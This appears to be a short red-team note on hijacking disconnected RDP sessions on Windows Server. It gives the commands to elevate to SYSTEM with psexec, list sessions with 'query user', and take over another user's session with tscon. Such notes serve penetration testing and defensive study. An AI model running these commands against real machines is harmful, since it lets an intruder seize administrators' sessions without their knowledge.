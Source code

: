 #psexec #tscon
# RDP Session Hijacking
- If an administrator uses RDP to log in to a machine and Instead of logging off the session, closes the RDP session, the session remains open on the server indefinately.
- If we have Administrative rights on a machine, we can reopen the session.
- Only works on Windows Server 2016
- We need to elevate from `Administrator` to `SYSTEM`.
```powershell
# First elevate to SYSTEM
psexec64.exe -s cmd.exe

# List the current rdp sessions
query user
# A Session with "Disc" state means that is left open by someone and currently not being used.

# Connect to active session using tscon
# tscon <id_to_connect_to> /dest:<current_session_name>
tscon 2 /dest:rdp-tcp#6
```
